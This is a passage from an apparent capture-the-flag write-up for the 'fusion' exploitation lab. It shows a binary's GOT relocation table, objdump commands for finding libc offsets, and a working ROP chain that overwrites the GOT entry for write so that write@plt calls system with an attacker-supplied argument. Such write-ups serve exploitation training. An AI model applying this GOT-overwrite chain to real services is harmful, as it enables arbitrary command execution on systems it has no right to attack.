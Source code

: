```
0804bd50  00002207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804bd54  00002307 R_386_JUMP_SLOT   00000000   accept@GLIBC_2.0
0804bd58  00002407 R_386_JUMP_SLOT   00000000   json_tokener_parse
0804bd5c  00002507 R_386_JUMP_SLOT   00000000   socket@GLIBC_2.0
0804bd60  00002607 R_386_JUMP_SLOT   00000000   dup2@GLIBC_2.0
0804bd64  00002707 R_386_JUMP_SLOT   00000000   memcpy@GLIBC_2.0
0804bd68  00002807 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804bd6c  00002907 R_386_JUMP_SLOT   00000000   getppid@GLIBC_2.0
0804bd70  00002a07 R_386_JUMP_SLOT   00000000   EVP_sha1@OPENSSL_1.0.0
0804bd74  00002b07 R_386_JUMP_SLOT   00000000   bind@GLIBC_2.0
0804bd78  00002c07 R_386_JUMP_SLOT   00000000   errx@GLIBC_2.0
0804bd7c  00002d07 R_386_JUMP_SLOT   00000000   close@GLIBC_2.0
0804bd80  00002e07 R_386_JUMP_SLOT   00000000   time@GLIBC_2.0
0804bd84  00002f07 R_386_JUMP_SLOT   00000000   setvbuf@GLIBC_2.0
0804bd88  00003007 R_386_JUMP_SLOT   00000000   malloc@GLIBC_2.0
0804bd8c  00003107 R_386_JUMP_SLOT   00000000   setrlimit@GLIBC_2.2
0804bd90  00003207 R_386_JUMP_SLOT   00000000   fork@GLIBC_2.0
0804bd94  00003307 R_386_JUMP_SLOT   00000000   setsockopt@GLIBC_2.0
0804bd98  00003407 R_386_JUMP_SLOT   00000000   rand@GLIBC_2.0
0804bd9c  00003507 R_386_JUMP_SLOT   00000000   __sprintf_chk@GLIBC_2.3.4
0804bda0  00003607 R_386_JUMP_SLOT   00000000   strncmp@GLIBC_2.0
0804bda4  00003707 R_386_JUMP_SLOT   00000000   __snprintf_chk@GLIBC_2.3.4
0804bda8  00003807 R_386_JUMP_SLOT   00000000   getpeername@GLIBC_2.0
0804bdac  00003907 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
```

I choose the **write** function. "0804bd1c" is the value that points to the address of **write** in the libc.

Next, we want **write** and **system** offset in the libc:
```shell
root@fusion:~# objdump -d /lib/i386-linux-gnu/libc.so.6 | grep "system"
...
0003cb20 <__libc_system>:
...
root@fusion:~# objdump -d /lib/i386-linux-gnu/libc.so.6 | grep "write"
...
000c12c0 <__write>:
...
```

The distance between **write** and **system** is 0x847a0. We can now start writing our ROP chain. We want [0x0804bd1c] = [0x0804bd1c] - 0x847a0. With the gadgets retrieved with ROPgadget I didn't find any suitable substract operand so I converted 0x847a0 to negative which is 0xfff7b860 so that we now want 0x0804bd1c] = [0x0804bd1c] + 0xfff7b860.

A ROP chain is:
```
+ 0x08048bf0 # pop ebx, ret => we put the value of GOT[write] (0x0804bd1c) into ebp
+ 0xaaa9b858 # 0x0804bd1c - 0x5d5b04c4 => because of the add dword ptr [ebx + 0x5d5b04c4]
+ 0x08049b4f # pop eax ; add esp, 0x5c ; ret => we put 0xfff7b860 in eax (distance between write and system)
+ 0xfff7b860
+ 'A'*0x5c   # because of add esp, 0x5c
+ 0x080493fe # add dword ptr [ebx + 0x5d5b04c4], eax ; ret => we write [0x0804bd1c] = [0x0804bd1c] - 0x847a0
+ 0x08048d40 # write PLT => then we call write@plt which will jump to the right GOT entry, and thus to system
+ 0x08048f80 # exit PLT => to properly exit, called when system returns
+ 0x0804d058 # [gContents] => argument for **system**
```
